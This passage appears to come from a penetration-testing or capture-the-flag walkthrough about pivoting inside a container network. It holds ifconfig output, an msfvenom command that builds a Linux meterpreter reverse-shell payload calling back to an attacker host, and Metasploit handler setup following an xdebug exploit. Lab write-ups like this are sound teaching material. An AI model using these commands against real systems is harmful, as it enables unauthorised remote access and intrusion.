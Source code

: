 Looking at the ip configuration we can see the web container is connected to the same subnet as the pki container.

```
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.20.0.10  netmask 255.255.255.0  broadcast 172.20.0.255
        ether 02:42:ac:14:00:0a  txqueuelen 0  (Ethernet)
        RX packets 1215  bytes 1240964 (1.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 736  bytes 104331 (104.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.254.2  netmask 255.255.255.0  broadcast 192.168.254.255
        ether 02:42:c0:a8:fe:02  txqueuelen 0  (Ethernet)
        RX packets 39  bytes 28430 (28.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 25  bytes 1797 (1.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 56  bytes 2955 (2.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 56  bytes 2955 (2.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Since our current meterpreter does not have the needed routing capabilites we create a new one.

```
$msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.30.0.8 LPORT=7575 -f elf -o m7575
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037344 bytes
Final size of elf file: 1037344 bytes
Saved as: m7575
```

We set our handler to the payload lhost and lport we selected.

```
msf6 exploit(unix/http/xdebug_unauth_exec) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 172.30.0.8
lhost => 172.30.0.8
msf6 exploit(multi/handler) > set lport 7575
lport => 7575
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.30.0.8:7575
```

